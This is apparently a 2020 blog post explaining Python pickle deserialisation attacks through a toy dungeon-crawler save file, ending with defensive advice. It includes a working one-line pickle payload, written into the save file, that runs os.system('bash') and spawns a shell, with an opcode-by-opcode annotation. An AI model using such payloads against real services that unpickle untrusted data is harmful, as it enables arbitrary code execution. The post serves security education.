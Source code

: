 ```yaml
---
layout: post
title: "Deserialisation Attacks"
date: 2020-03-08
---
```


If you have been programming for any length of time, you are bound to have come across JSON. JSON (JavaScript Object Notation) is a serialisation format for common datatypes. Whenever a service wishes to transfer data while maintaining its structure, it must serialise it to ensure the recieving service is able to interpret the data correctly. For stateless types (e.g. `int`, `float`, `dict`, etc.) we define a format which can be read directly back. However, for stateful types (e.g. file handles, objects, sockets, etc.) we may need to execute a deserialisation stub for the serialised object to appropriately initialise its state.

The Python programming language has two serialisation libraries: `pickle` and `marshal`. The `pickle` library is considerably more popular as `marshal` is highly dependent on your interpreter version. When reading the `pickle` [documentation](https://docs.python.org/3/library/pickle.html) you are greeted with:

```
Warning
The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling.
Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
Consider signing data with hmac if you need to ensure that it has not been tampered with.
Safer serialization formats such as json may be more appropriate if you are processing untrusted data.
See Comparison with json.
```

I will demonstrate the dangers of blindly deserialising data using `pickle`. Imagine you are playing a dungeon crawler then exit midway through.

```console
$ python game.py
kills: 0, deaths: 0, xp: 0
Welcome to the dungeon, player
[1] a Dark Knight approaches!
enter any key to proceed:
[[1]] player attacks Dark Knight dealing 21!
[[2]] Dark Knight attacks player dealing 13!
[[3]] player attacks Dark Knight dealing 19!
[[4]] Dark Knight attacks player dealing 15!
[[5]] player attacks Dark Knight dealing 20!
player killed the Dark Knight!
player gained 100xp!
[2] a Wizar approaches!
enter any key to proceed: ^C
```

However, when you restart the game you notice something.

```console
$ python game.py
loaded savefile
kills: 1, deaths: 0, xp: 100
Welcome to the dungeon, player
[snip]
```

The game preserved the state of your previous playthrough when you abruptly quit. We look at the game's `main` function.

```python
def main() -> None:
    if (game_state := load_recent_save()) is None:
        game_state = empty_game_state()
    else:
        print("loaded savefile")

    [snip]
```

We investigate the `load_recent_save` function.

```python
def load_recent_save() -> GameState:
    try:
        with open(".save", "rb") as f:
            unserialised = pickle.load(f)
    except FileNotFoundError:
        return None

    player = unserialised.player
    player.health = 200
    return GameState(player, Enemy())
```

The game is blindly deserialising the file `.save`. We can inspect this file.

```console
$ xxd .save
00000000: 8004 95bf 0000 0000 0000 008c 085f 5f6d  .............__m
00000010: 6169 6e5f 5f94 8c09 5361 7665 5374 6174  ain__...SaveStat
00000020: 6594 9394 2981 947d 9428 8c09 7469 6d65  e...)..}.(..time
00000030: 7374 616d 7094 8c08 6461 7465 7469 6d65  stamp...datetime
00000040: 948c 0864 6174 6574 696d 6594 9394 430a  ...datetime...C.
00000050: 07e4 0308 1723 3900 21fd 9485 9452 948c  .....#9.!....R..
00000060: 0670 6c61 7965 7294 6800 8c06 506c 6179  .player.h...Play
00000070: 6572 9493 9429 8194 7d94 288c 046e 616d  er...)..}.(..nam
00000080: 6594 8c06 706c 6179 6572 948c 056b 696c  e...player...kil
00000090: 6c73 944b 018c 0664 6561 7468 7394 4b00  ls.K...deaths.K.
000000a0: 8c0a 6578 7065 7269 656e 6365 944b 648c  ..experience.Kd.
000000b0: 0668 6561 6c74 6894 4bc8 8c06 6461 6d61  .health.K...dama
000000c0: 6765 944b 1475 6275 622e                 ge.K.ubub.
```

`pickle` is a binary serialisation format but we can still see some textual data. What if we modify this file?

![bindiff of save files](/assets/images/deserialisation_bindiff.png)

We successfully changed our player's name.

```console
$ python game.py
loaded savefile
kills: 1, deaths: 0, xp: 100
Welcome to the dungeon, haxxed
[1] a Wizar approaches!
```

The way `pickle` works is that it serialises the data and executes the steps involved in grabbing that data back out. What happens if we overwrite these deserialisation steps with our own?

```console
$ printf "cos\nsystem\n(S'bash'\ntR." > .save
$ python game.py
[user@beelzebub]: /tmp/tmp.aLb9xQwYe4>$
```

Here we have spawned a shell. The annotated payload is shown below.

```
(each field has a separating newline)

cos\nsystem <- push os.system to stack
(   <- marker
S 'bash'    <- 'bash' string constant
t   <- build tuple ('bash')
R   <- apply ('bash') to os.module
.   <- stop
```

To construct your own payloads you can reverse engineer the [format](https://github.com/python/cpython/blob/master/Lib/pickletools.py).

What is the takeaway from all of this? Do not deserialise untrusted data - or more broadly: do not blindly accept user data. All properties under user control can and should be treated as if the user will manipulate them maliciously. To defend yourself against this attack, the data could be encrypted using a symmetric key within the game itself although this approach falls into the obfuscation game with reverse engineers. Alternatively, the information could be stored on a trusted remote host and securely transmitted using PKI.

